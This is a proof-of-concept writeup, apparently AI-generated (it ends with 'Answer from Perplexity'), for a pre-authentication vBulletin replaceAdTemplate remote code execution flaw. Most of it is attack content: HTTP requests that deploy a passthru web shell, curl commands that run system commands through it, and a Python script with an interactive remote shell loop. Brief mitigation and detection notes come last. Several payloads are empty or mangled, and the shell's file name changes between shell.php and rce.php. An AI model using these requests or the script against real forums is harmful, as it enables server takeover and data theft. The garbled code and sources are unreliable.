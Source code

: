 # vBulletin replaceAdTemplate Remote Code Execution POC

**Author:** Chirag Artani  
**CVE:** N/A (N-Day vulnerability)  
**Affected Versions:** vBulletin 5.x and 6.x running on PHP 8.1+  
**Severity:** Critical (Pre-authentication RCE)

## Vulnerability Overview

This vulnerability exploits a combination of two security flaws in vBulletin[1]:

1. **PHP Reflection API Misuse**: vBulletin's API controller allows calling `protected` methods via `ReflectionMethod::invoke()` when running on PHP 8.1+
2. **Template Engine Code Injection**: The template parser can be bypassed using variable function calls to execute arbitrary PHP code

The exploit chain targets the `vB_Api_Ad::replaceAdTemplate()` protected method to inject malicious templates that execute PHP code through vBulletin's template conditionals (`` tags)[1].

## Technical Details

### **Root Cause Analysis**

The vulnerability stems from changes in PHP 8.1 that allow `protected` and `private` methods to be invoked via the Reflection API. vBulletin's API controller uses `is_callable()` to check method accessibility, but this function returns `true` even for `protected` methods, allowing execution to continue to `ReflectionMethod::invokeArgs()`[1].

The `replaceAdTemplate()` method accepts user-controlled template content that gets processed by vBulletin's template engine. By using variable function calls (e.g., `"function_name"(args)`), attackers can bypass the template parser's security regex checks and execute arbitrary PHP functions[1].

## Proof of Concept

### **Step 1: File Write Operation**

Create a simple text file to verify code execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 153

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=
```

### **Step 2: Directory Listing Verification**

Confirm file creation and explore the web directory:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 127

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=
```

**Expected Response:**
```
Array
(
    [0] => LICENSE
    [1] => ava
    [2] => config.php
    [3] => config.php.bkp
    [4] => core
    [5] => customavatars
    [6] => customgroupicons
    [7] => customprofilepics
    [8] => favicon.ico
    [9] => fonts
    [10] => hello.txt
    [11] => htaccess.txt
    [12] => images
    [13] => includes
    [14] => index.php
    [15] => js
    [16] => logs
    [17] => ocp.php
    [18] => opcache-gui.php
    [19] => opcache.php
    [20] => signaturepics
    [21] => useralbums
    [22] => userfiles
    [23] => web.config
)
```

### **Step 3: Web Shell Deployment**

Deploy a persistent web shell for command execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 189

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=\"; passthru($_POST[\"cmd\"]); echo \"\"; } ?>")'>
```

### **Step 4: Command Execution**

Execute system commands through the deployed web shell:

```bash
curl -X POST http://target.com/shell.php -d "cmd=id"
curl -X POST http://target.com/shell.php -d "cmd=whoami"
curl -X POST http://target.com/shell.php -d "cmd=ls -la"
```

## Automated Exploitation Script

```python
#!/usr/bin/env python3
"""
vBulletin replaceAdTemplate RCE Exploit
Author: Chirag Artani
"""

import requests
import sys
import urllib.parse

def exploit_vbulletin(target_url):
    print("[+] vBulletin replaceAdTemplate RCE Exploit")
    print(f"[+] Target: {target_url}")
    
    # Step 1: Deploy web shell
    shell_payload = '"; passthru($_POST["cmd"]); echo ""; } ?>'
    template_payload = f''
    
    data = {
        'routestring': 'ajax/api/ad/replaceAdTemplate',
        'styleid': '1',
        'location': '3444',
        'template': template_payload
    }
    
    try:
        response = requests.post(f"{target_url}/ajax/api/ad/replaceAdTemplate", data=data, timeout=10)
        print(f"[+] Shell deployment response: {response.status_code}")
        
        # Step 2: Test shell access
        shell_url = f"{target_url}/rce.php"
        test_response = requests.post(shell_url, data={'cmd': 'id'}, timeout=10)
        
        if test_response.status_code == 200 and 'uid=' in test_response.text:
            print(f"[+] Shell successfully deployed at: {shell_url}")
            print(f"[+] Test command output:\n{test_response.text}")
            
            # Interactive shell
            while True:
                cmd = input("vBulletin-shell# ")
                if cmd.lower() in ['exit', 'quit']:
                    break
                
                cmd_response = requests.post(shell_url, data={'cmd': cmd}, timeout=10)
                print(cmd_response.text)
                
        else:
            print("[-] Shell deployment failed")
            
    except requests.exceptions.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 vbulletin_rce.py ")
        print("Example: python3 vbulletin_rce.py http://target.com")
        sys.exit(1)
    
    target = sys.argv[1].rstrip('/')
    exploit_vbulletin(target)
```

## Mitigation

1. **Immediate Actions:**
   - Update vBulletin to the latest patched version
   - Implement Web Application Firewall (WAF) rules to block malicious template injection attempts
   - Monitor for suspicious API calls to `replaceAdTemplate`

2. **Long-term Security:**
   - Regular security audits of custom API endpoints
   - Implement proper input validation and sanitization
   - Use allowlists instead of denylists for template validation
   - Consider running vBulletin with restricted PHP functions using `disable_functions`

## Detection

Look for the following indicators in web server logs:
- POST requests to `/ajax/api/ad/replaceAdTemplate`
- Template parameters containing `<vb:if condition=` with function calls
- Unusual file creation in web directories
- Suspicious PHP function calls in template content

This vulnerability demonstrates the critical importance of proper access control implementation and secure template processing in web applications[1].

Citations:
[1] https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce
[2] https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-vbulletin-pre-auth-rce-vulnerability-cve-2019-16759/
[3] https://www.authentic8.com/blog/vbulletin-5-0day-from-imperfect-patch
[4] https://community.f5.com/kb/technicalarticles/vbulletin-pre-authentication-%E2%80%93-remote-code-execution-cve-2019-16759/283751
[5] https://unit42.paloaltonetworks.com/cve-2020-17496/
[6] https://x.com/Dinosn/status/1926835589111791894
[7] https://cloud.projectdiscovery.io/?template=CVE-2025-24813
[8] https://www.sentinelone.com/blog/vbulletin-cve-2023-25135/
[9] https://www.exploit-db.com/exploits/38629
[10] https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/vbulletin-remote-code-execution-cve-2020-7373/

---
Answer from Perplexity: pplx.ai/share
